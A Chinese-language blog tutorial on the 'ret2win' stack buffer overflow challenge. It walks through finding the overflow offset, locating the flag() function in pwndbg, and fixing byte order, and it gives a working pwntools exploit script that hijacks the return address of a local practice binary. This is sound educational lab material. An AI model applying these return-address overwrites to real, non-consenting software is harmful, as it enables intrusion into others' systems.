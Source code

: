 # ret2win


**ret2win** 中有一个 `win()` 函数（或等效函数）；一旦你成功地将执行重定向到那里，
你就完成了挑战。

为了实现这一点，我们必须覆盖 EIP，但覆盖成我们想要的特定值。

为此，我们需要了解：

- 直到我们开始覆盖返回地址（EIP）为止的 `溢出 Padding`
- 我们想要将 EIP 覆盖成什么值

{{<admonition type="warning" title="注意">}}

当我说「覆盖 EIP」时，我的意思是覆盖压入到 EIP 中的已保存的返回地址。
EIP 寄存器 并不位于栈上，因此不会被直接覆盖。

{{</admonition>}}

<!--more-->

{{< link href="/pwn_assets/ret2win.zip" content="ret2win.zip" title="Download ret2win.zip" download="ret2win.zip" card=true >}}

## 0x01 计算溢出 Padding

这可以通过简单的试验和错误找到。我们可以发送可变数量的字符，将 `Segmentation Fault`
消息和 pwndbg 结合使用，来判断我们何时覆盖了 EIP 。有一种比简单的暴力破解更好的
方法：[德布鲁因（De Bruijn）序列](https://www.cubeyond.net/de-bruijn-sequences/)，为了方便起见，现在我们直接使用已经计算出的溢出 Padding。

{{<admonition type="info">}}

除了覆盖 EIP 之外，还可能会因其他原因而出现分段错误。使用调试器确保
`溢出 Padding` 正确。

{{</admonition>}}

这里的溢出 Padding 为 52 字节的偏移量。

## 0x02 确定 flag() 函数地址

现在我们需要在二进制文件中找到 `flag()` 函数的地址，这很简单：

```
$ pwndbg vuln
$ i fun
[...]
0x080491c3  flag
[...]
```

{{<admonition type="info">}}

`i fun` 代表 **i**nfo **f**unction，可以列出分析中发现的函数。

{{</admonition>}}

可以看到这里的 `flag()` 函数位于 `0x080491c3` 。

## 0x03 编写地址

最后一个难题是弄清楚如何发送我们想要的地址。在 [二进制漏洞利用简介](https://www.cubeyond.net/stack-introduction/)中，
我们发送的 `A` 变成了 `0x41` —— 这是 `A` 的 `ASCII 码` 。所以解决方案
很简单——我们只要找到 `ASCII` 码为 `0x08`、`0x04`、`0x91` 和 `0xc3` 的
字符即可。

这比你想象的要简单得多，因为我们可以在 Python 中将它们指定为
十六进制：

```python
address = '\x08\x04\x91\xc3'
```

这使得事情变得容易得多。

{{<admonition type="tip">}}

使用 `xxd` 可以以二进制或十六进制显示文件的内容：

{{< typeit code=bash >}}

$ echo '\x41\x41\x41\x41' | xxd
00000000: 4141 4141 0a        AAAA.

$ echo 'AAAA' | xxd
00000000: 4141 4141 0a        AAAA.

{{< /typeit >}}

{{</admonition>}}

## 0x04 编写漏洞利用脚本

现在我们知道了溢出 Padding 和想要覆盖的值，我们可以使用 [pwntools](https://github.com/Gallopsled/pwntools) 与二进制文件
交互，编写漏洞利用脚本。

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

# 创建一个新进程
p = process('./vuln')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

# 输出「Exploited!」字符串则说明我们成功了
p.sendline(payload)

p.interactive()
```

如果你直接运行上面的脚本，就会发现一个小问题：它没有输出 `Exploited` 。为什么？
我们可以用调试器来检查一下。添加 hook `pwndbg` 的代码，以及 `pause()`，以便
我们可以在想发送 `payload` 的时候发送 `payload` 。

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.terminal = ['alacritty', '-e']

p = process('./vuln')

# 下面这条指令可以在启动 pwndbg 后自动下断点
# 为了调试程序的问题，我们在 `unsafe` 的 ret 指令返回时设断点
gdb.attach(p, 'b *0x080491aa')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

pause()
p.sendline(payload)

p.interactive()
```

现在让我们使用 `python exp.py` 运行该脚本，它将自动打开一个 `pwndbg` 窗口：

让我们在 `unsafe()` 返回时中断并读取返回地址的值：

```
$ disass unsafe
$ c

<< press any button on the exploit terminal interface >>

$ x/20wx $esp
0xffffd7dc:	0xc3910408
[...]
```

`0xc3910408` ，看起来熟悉吗？这是我们试图发送的地址，只不过字节顺序被反转了，
而这种反转的原因是 [字节顺序](https://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F) 使用大端序的系统将最高有效字节（具有最大值的字节）
存储在最小的内存地址处，这就是我们发送它们的方式。使用小端序的系统的做法恰恰相反，
这是有 [原因](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format) 的，并且我们遇到的大多数二进制文件都是小端序的。就我们而言，只要知道
字节在使用小端序的可执行文件中 *payload 以相反的顺序存储* 就可以了。

## 0x05 确定字节顺序

`pwntools` 附带了一个名为 `checksec` 的工具，用于二进制分析。我们可以直接在 `pwndbg`
中使用这条指令：

```
$ checksec
[...]
Arch:     i386-32-little
[...]
```

因此可以确定，我们的程序是 32-bit 小端序的。

## 0x06 反转字节顺序

解决方法很简单：反转字节序

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

如果你现在运行它，它将成功输出 `Exploited!` ：

```
$ python exp.py
[+] Starting local process './vuln' argv=[b'./vuln'] : pid 9645
[DEBUG] Sent 0x39 bytes:
[...]
[*] Switching to interactive mode
[DEBUG] Received 0x1b bytes:
[...]
Overflow me
Exploited!!!!!
```

我们已经成功改变了程序的执行流程，调用了 `flag()` 函数！

## 0x07 Pwntools 和 字节顺序

毫不奇怪，你并不是第一个想到「能否使字节顺序书写变得更简单」的人。
幸运的是，`pwntools` 有一个内置的 `p32()` 函数可供使用！

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

改为：

```python
payload += p32(0x080491c3)
```

这样就简单多了。唯一需要注意的是它返回字节而不是字符串，因此你必须
将溢出 Padding 设置为字节字符串：

```python
payload = b'A' * 52  # 注意 "b"
```

否则你会得到一个这样的报错：

```
TypeError: can only concatenate str (not "bytes") to str
```

## 0x08 最终的 Exploit 脚本

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

p = process('./vuln')

payload = b'A' * 52
payload += p32(0x080491c3)

p.sendline(payload)

p.interactive()
```


---

> 作者: CuB3y0nd  
> URL: https://www.cubeyond.net/ret2win/  

